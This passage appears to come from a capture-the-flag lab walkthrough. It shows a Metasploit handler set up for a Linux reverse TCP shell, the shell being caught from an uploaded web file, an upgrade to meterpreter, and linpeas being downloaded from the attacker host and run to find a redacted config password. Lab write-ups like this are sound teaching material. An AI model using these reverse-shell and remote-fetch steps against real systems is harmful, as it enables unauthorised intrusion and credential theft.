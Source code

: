 ```bash

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > set LHOST 10.11.25.205
LHOST => 10.11.25.205
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.25.205:9999
```

Run the exploit from the directory we uploaded earlier, here i use `/index.php` directory and we got the shell back.
```bash
[*] Sending stage (36 bytes) to 10.10.89.61
[*] Command shell session 2 opened (10.11.25.205:9999 -> 10.10.89.61:52292) at 2021-01-12 00:31:13 -0500

 00:31:15 up  2:29,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ ��Yj?X��Iy�jX�Rh//shh/bin��RS��^Z
```

Upgrade our shell to meterpreter.
```bash
msf6 exploit(multi/handler) > sessions -u 2
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [2]

[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.11.25.205:4433 
[*] Sending stage (976712 bytes) to 10.10.89.61
[*] Meterpreter session 3 opened (10.11.25.205:4433 -> 10.10.89.61:58022) at 2021-01-12 00:31:31 -0500
[*] Command stager progress: 100.00% (773/773 bytes)

msf6 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter >
```

Run linpeas.
```bash
bash-4.2$ wget IP:8080/linpeas.sh
bash-4.2$ chmod +x linpeas.sh
bash-4.2$ ./linpeas.sh
...
[+] Searching supervisord configuration file
[+] Searching cesi configuration file
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
[+] Searching Knock configuration
[+] Checking misconfigurations of ld.so
/var/www/html/configuration.php
/var/www/html/configuration.php:        public $password = 'REDACTED';
...
```
